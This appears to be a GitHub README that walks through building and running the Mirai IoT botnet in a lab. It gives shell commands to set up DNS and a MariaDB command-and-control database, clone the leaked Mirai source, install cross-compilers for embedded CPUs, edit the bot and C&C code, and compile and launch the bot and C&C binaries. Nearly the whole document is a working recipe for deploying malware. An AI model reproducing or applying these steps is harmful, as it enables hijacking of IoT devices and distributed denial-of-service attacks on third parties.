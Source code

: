 # Build-a-Mirai-botnet
In this Experiment, I found a way to build a MIRAI botnet.

An installation guide has been given by Mirai's author:
https://github.com/jgamblin/Mirai-Source-Code/blob/master/ForumPost.md

# *Environment*
1. Fedora27 x64 workstaion with over 16G MEM.
2. Network capabilities.
3. VMware-station or vbox.

# *Requirements*
```bash
dnf install git gcc golang ElectricFence mysql mariadb-server mariadb-common bind bind-utils
dnf groupinstall "Development Tools" -y
dnf install gmp-devel -y
```

## Section 1 Setup dns server
### 1-1 Stop Dns server
```bash 
sudo systemctl stop named
```
### 1-2 Edit /etc/named.conf
```conf
acl "trusted" {
	192.168.241.1; // Self DNS-server ip
};
options {
	listen-on port 53 { any; };
	listen-on-v6 port 53 { any; };
	directory 	"/var/named";
	dump-file 	"/var/named/data/cache_dump.db";
	statistics-file "/var/named/data/named_stats.txt";
	memstatistics-file "/var/named/data/named_mem_stats.txt";
	allow-query     { any; };

	recursion yes;

	dnssec-enable yes;
	dnssec-validation yes;

	managed-keys-directory "/var/named/dynamic";

	pid-file "/run/named/named.pid";
	session-keyfile "/run/named/session.key";

	/* https://fedoraproject.org/wiki/Changes/CryptoPolicy */
	include "/etc/crypto-policies/back-ends/bind.config";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};

zone "." IN {
	type hint;
	file "named.ca";
};

include "/etc/named.rfc1912.zones";
include "/etc/named.root.key";

```
### 1-3 Edit /etc/named.rfc1912.zones
```conf
zone "changeme.com" IN {
	type master;
	file "changeme.com";
	allow-update { none; };
};
```
### 1-4 Restart named
```bash
systemctl start named
```

## Section 2 Setup mariadb-server mirai databases
### 2-1 Create mysql root password
```bash
mysqladmin -u root password password
```
### 2-2 Run ./scripts/db.sql
```bash
cat ./scripts/db.sql | mysql -uroot -p
```
### 2-3 Add cnc login account
```mysql
INSERT INTO users VALUES (NULL, 'mirai-user', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
```

## Section 3 Compile Mirai code
### 3-1 Download the Mirai code
```bash
git clone https://github.com/jgamblin/Mirai-Source-Code.git

wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2

tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2

rm *.tar.bz2

mv cross-compiler-armv4l armv4l
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv6l armv6l
```
### 3-2 Make go home DIR
```bash
mkdir ~/go
```
### 3-3 Adding xcompile path in .bashrc
```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
```
*source .bashrc*
```bash
source ~/.bashrc
```
### 3-4 Install GoLang Drivers
```bash
go get github.com/go-sql-driver/mysql
go get github.com/mattn/go-shellword
```
### 3-5 Edit Mirai code
*Edit ./mirai/bot/resolv.c DNS server ip*
```c
struct resolv_entries *resolv_lookup(char *domain)
{
    /*
       Missing code ...
     */
    util_zero(&addr, sizeof (struct sockaddr_in));
    addr.sin_family = AF_INET;
    addr.sin_addr.s_addr = INET_ADDR(192,168,241,1); //Change here
    addr.sin_port = htons(53);

    /*
       Missing code ...
     */
}

```
*Edit ./mirai/cnc/main.go*
```go
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password" //Change here
const DatabaseTable string  = "mirai"
```
*Edit ./mirai/cnc/admin.go*
```go
headerb, err := ioutil.ReadFile("/root/Mirai_Code/mirai/prompt.txt") //Change here
```
### 3-6 Compile
```bash
cd ./mirai
./build.sh debug telnet
./build.sh release telnet
cd ../loader
./build.sh
```

## Section 4 Run Mirai Net
### 4-1 Run ./mirai/debug/cnc as root on PC:192.168.241.1
```bash
./mirai/debug/cnc
```
### 4-2 Telnet cnc
```bash
telnet 127.0.0.1
```
### 4-3 Run ./mirai/debug/mirai.dbg as root on VM-PCs
*VM-PC1:192.168.241.108*

*VM-PC2:192.168.241.109*

*VM-PC3:192.168.241.110*

